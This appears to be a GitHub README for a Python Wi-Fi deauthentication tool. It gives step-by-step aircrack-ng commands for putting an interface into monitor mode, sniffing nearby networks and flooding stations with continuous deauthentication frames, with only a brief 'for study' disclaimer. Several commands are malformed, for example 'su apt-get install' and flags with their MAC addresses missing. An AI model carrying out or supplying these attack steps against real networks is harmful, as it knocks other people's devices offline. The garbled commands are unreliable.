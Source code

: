 # Introduction
Wifi deauthentication attack allows attackers to send frames from an access point to a station,even though the attack is not in the network.

Actually, send deauthentication frame is a normal functionality on all routers, almost all routers need to send special frames to inform rogue station to get out of network.

# Requirement
1. aircrack-ng
```
su apt-get install aircrack-ng
```
    
2. ifconfig
```
su apt-get install net-tools
```

3. iwconfig
```
su sudo apt install wireless-tools
```

4. mac_address.csv

the *mac_address.csv* contains OUIs and corresponds company names. first column is OUI and second column is Company.
    
format:
```
oui,company
xx:xx:xx,xxx
xx:xx:xx:x,xxx
```
    
I downloaded *mac_address.csv* from [https://macaddress.io/database/macaddress.io-db.csv](https://macaddress.io/database/macaddress.io-db.csv), edit the file to only contain *oui* and *company* column,rename the file to *macaddress.csv*. then move the *macaddress.csv* file into the same directory as *deauth.py*.
    

# The Core Concept

This project completely builds on `aircrack-ng` package. below is core steps how to pose a deauthentication attack on the shell.

1. check the wireless interface name

```
su iwconfig
```

2. put wireless interface into monitor mode

```
su airmon-ng start wlan0
```

3. check the wireless interface name again

normally, the step2 will change the wireless interface's name. in the majority of cases, it will append `mon` on the previous name's end.
```
su iwconfig
```

4. sniff data on traffics

```
airodump-ng wlan0mon
```

5. sniff data on specific network traffic

```
airodump-ng -d -c  wlan0mon
```

6. send deauthentication frames

```
aireplay --deauth 0 -a -c wlan0mon
```


# How to use deauth.py
1. download deauth
```
su apt-get wget 
```
2. run it with python3.x
```
python3 deauth.py
```

# Disclaimer
Don't use this project to do any illegal things. it's only used for the study. responsibilities arising from the use of this project have nothing to do with the author.


